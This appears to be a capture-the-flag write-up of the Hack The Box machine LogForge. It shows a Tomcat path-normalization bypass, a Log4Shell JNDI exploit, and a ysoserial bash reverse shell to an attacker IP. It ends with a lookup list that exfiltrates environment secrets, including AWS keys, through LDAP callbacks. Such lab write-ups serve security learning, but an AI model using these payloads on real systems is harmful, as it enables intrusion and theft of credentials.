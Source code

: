 ```yaml
---
title: LogForge
author:
  name: Cotes Chung
  link: https://github.com/cotes2020
date: 2019-08-08 11:33:00 +0800
categories: [Blogging, Demo]
tags: [typography]
math: true
mermaid: true
---
```

# Enumeration
## NMAP
```
luka@kali:~/htb/logforge/nmap$ nmap -sC -sV -oA nmap 10.10.11.138
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-24 20:55 CET
Nmap scan report for 10.10.11.138
Host is up (0.033s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE    SERVICE    VERSION
21/tcp   filtered ftp
22/tcp   open     ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp   open     http       Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Ultimate Hacking Championship
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp filtered http-proxy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## WebPage on Port 80
![](../images/2022-01-11-19-22-43.png)

Going to page that doesn't exist shows, that there is difference regarding which server is running on port 80 (Apache or Apache Tomcat), which makes us asume that we're dealing with reverse proxy.
![](../images/2022-01-11-19-24-26.png)

# Exploitation
So from very basic enumeration let's start to exploitation.
First on the menu is breaking the parser logic. 
## Breaking parser logic on Apache / Tomcat
https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf

We'll use a neat trick to trick Reverse Proxy to not block us after opening `/manager/`. 
![](../images/2022-01-11-19-25-22.png)
We'll be able to bypass that and still end on Tomcat because tomcat doesn't treat that ::; as URL.
`http://10.10.11.138/idontexist/..;/manager/` will open the Login prompt (Login with `tomcat/tomcat`).
We should be able to login to Tomcat manager.
![](../images/2022-01-11-19-25-42.png)
## Log4J Exploit / CVE-2021/44882
There are a lot of good explanations on Log4J, so i'll won't be diving into that. I've done the PoC before which used simple JNDI payload, which loaded malicious class after LDAP Callback and gave reverse shell. 

Exploiting Log4J on this box is a little more tricky.
First of all, we need to get an execution, so let's try injecting simple payload into Tomcat.
`${jndi:ldap://10.10.14.18:1389/Ajej.class}`
![](../images/2022-01-11-19-25-57.png)
I ran `tcpdump` but nc listening on port 1389 would also do the job. 
There's callback so Application is vulnerable.
![](../images/2022-01-11-19-26-11.png)
Like suggested in the ippsec's video https://www.youtube.com/watch?v=XG14EstTgQ4, approach mention in the post https://twitter.com/marcioalm/status/1470361495405875200 will be used. In addition to that post, we'll not be using the regular Ysoserial, but Ysoserial-modified: https://github.com/pimps/ysoserial-modified
JNDI-Exploit-kit: https://github.com/pimps/JNDI-Exploit-Kit.git

### Creating payload
```
java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.18/4444 0>&1' > /home/luka/htb/logforge/rev
```

### Starting JNDI-Exploit-Kit
```
java -jar target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.18:1389 -P /home/luka/htb/logforge/rev
```
![](../images/2022-01-11-19-26-30.png)
### Reverse Shell
Put `${jndi:ldap://10.10.14.18:1389/rev}` again in the manager's field which gives us RCE and start it. Reverse shell should pop:
![](../images/2022-01-11-19-26-44.png)
If the payload wouldn't work, we could use also one of the following:
```
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.10.14.18:1099/s5ie1k
ldap://10.10.14.18:1389/s5ie1k
Target environment(Build in JDK 1.5 whose trustURLCodebase is true):
rmi://10.10.14.18:1099/kfaicp
ldap://10.10.14.18:1389/kfaicp
Target environment(Build in JDK - (BYPASS WITH GROOVY by @orangetw) whose trustURLCodebase is false and have Tomcat 8+ and Groovy in classpath):
rmi://10.10.14.18:1099/koifwi
Target environment(Build in JDK 1.6 whose trustURLCodebase is true):
rmi://10.10.14.18:1099/2blnim
ldap://10.10.14.18:1389/2blnim
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.10.14.18:1099/e6xn7g
ldap://10.10.14.18:1389/e6xn7g
Target environment(Build in JDK - (BYPASS WITH EL by @welk1n) whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.10.14.18:1099/urpkwl
```

# Privilege Escalation
## FTP Server (Java) running as root
```
root         769       1  0 Dec24 ?        00:00:00 /usr/sbin/cron -f
root         937     769  0 Dec24 ?        00:00:00  \_ /usr/sbin/CRON -f
root         943     937  0 Dec24 ?        00:00:00      \_ /bin/sh -c /root/run.sh
root         944     943  0 Dec24 ?        00:00:00          \_ /bin/bash /root/run.sh
root         945     944  0 Dec24 ?        00:00:59              \_ java -jar /root/ftpServer-1.0-SNAPSHOT-all.jar
```
![](../images/2022-01-11-19-27-09.png)
Unintended way to solve the box is to log into FTP on localhost with any user, and simple use dir and cat to read the flag etc.

Intended way (according to IppSec's video) is to exploit the vulnerable Log4J FTP Application. We can exploit Log4J simply by putting same string as we did above into the username, and we'd get a callback from an application. Because this app does not have any gadgets, we need to dig deeper into the application.
So download the ftp server application to Kali and open it with `jd-gui`.

You should see Log4J decompiled classes right away.
In `Worker.class` we can see user and the pass which will be passed from environment variable.
```java
  private String validUser = System.getenv("ftp_user");
  
  private String validPassword = System.getenv("ftp_password");
```

Both can be read using JNDI, so let's try that.
`${jndi:ldap://10.10.14.18:1389/${env:ftp_user}/${env:ftp_password}}`

Run `tcpdump -i tun0 -A port 1389`
Somewhere in the middle we should find, leaked username and password:
![](../images/2022-01-11-19-28-27.png)
FTP Login should work. We can either grab a flag only or download `.ssh/id_rsa`

### Exflitration of other Data
Exfiltration of other data is also possible. This is short list from here: https://therceman.medium.com/log4j-vulnerability-cheatsheet-66b7aeabc607
```
${hostName}  
${sys:user.name}  
${sys:user.home}  
${sys:user.dir}  
${sys:java.home}  
${sys:java.vendor}  
${sys:java.version}  
${sys:java.vendor.url}  
${sys:java.vm.version}  
${sys:java.vm.vendor}  
${sys:java.vm.name}  
${sys:os.name}  
${sys:os.arch}  
${sys:os.version}  
${env:JAVA_VERSION}  
${env:AWS_SECRET_ACCESS_KEY}  
${env:AWS_SESSION_TOKEN}  
${env:AWS_SHARED_CREDENTIALS_FILE}  
${env:AWS_WEB_IDENTITY_TOKEN_FILE}  
${env:AWS_PROFILE}  
${env:AWS_CONFIG_FILE}  
${env:AWS_ACCESS_KEY_ID}
```

For example:
`${jndi:ldap://10.10.14.18:1389/${hostName}/........./${sys:user.name} /........./${sys:user.dir}/........./${sys:os.version}}`
![](../images/2022-01-11-19-28-42.png)

